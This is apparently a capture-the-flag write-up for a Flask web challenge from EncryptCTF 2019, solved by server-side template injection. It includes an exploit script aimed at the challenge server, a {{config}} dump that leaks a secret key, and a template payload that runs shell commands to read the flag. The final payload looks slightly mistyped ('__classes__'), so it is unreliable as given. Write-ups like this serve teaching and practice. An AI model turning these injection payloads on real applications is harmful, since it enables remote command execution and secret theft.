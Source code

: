 # web : repeaaaaaat


`Given a Server http://104.154.106.182:5050`
![img](https://github.com/D1r3Wolf/CTF-writeups/blob/master/Encrypt-2019/repeaaaaaat/img/website.png?raw=true)
`With Source Code`
![img](https://github.com/D1r3Wolf/CTF-writeups/blob/master/Encrypt-2019/repeaaaaaat/img/source.png?raw=true)
* Source Code contains Base64 encoded hints which change on reloading
> 1. L2xvbF9ub19vbmVfd2lsbF9zZWVfd2hhdHNfaGVyZQ== |> /lol_no_one_will_see_whats_here
> 2. d2hhdF9hcmVfeW91X3NlYXJjaGluZ19mb3IK     	  |> what_are_you_searching_for
> 3. Lz9zZWNyZXQ9ZmxhZw==						  |> /?secret=flag

* 3rd one is really intreresting
![img](https://github.com/D1r3Wolf/CTF-writeups/blob/master/Encrypt-2019/repeaaaaaat/img/inject.png?raw=true)
* Our Code is injected in source , IT is a Flask template injection
### Lets use a script for explioting this bug 
```py
from requests import get
import sys
import html
def Obj(S):
	L = []
	while "<class '" in S:
		s = S.find("<class '")+8
		e = S.find("'>",s)
		# print(S[s])
		L.append(S[s:e])
		S = S[e:]
	return L

A = sys.argv[1]
A = get("http://104.154.106.182:5050/?secret="+A).text
s = A.find("</div>")+6
e = A.find("<!--")
Str = A[s:e]
S = html.unescape(Str)
Check = ''
if len(sys.argv) == 3:
	if sys.argv[2] == '-p':
		print(Obj(S))
print(S)
```
### output
```
$ py exp.py "{{config}}"
 <Config {'ENV': 'production', 'DEBUG': True, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cf49d97a5680998cbddbee283eeb03adbeda772b', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```
* we can evaluate our python Input on server
* But we cannot use the functions directly
* Now the Server is Down to Provide the ouput 
### The exploit is :: `str.__classes__.__mro__[1].__subclasses__()[251](['cat','flag.txt'],stdout=-1).communicate()`
`http://127.0.0.1:5000/?secret={{str.__classes__.__mro__[1].__subclasses__()[251](['cat','flag.txt'],stdout=-1).communicate()}}`

# flag is : `encryptCTF{!nj3c7!0n5_4r3_b4D}`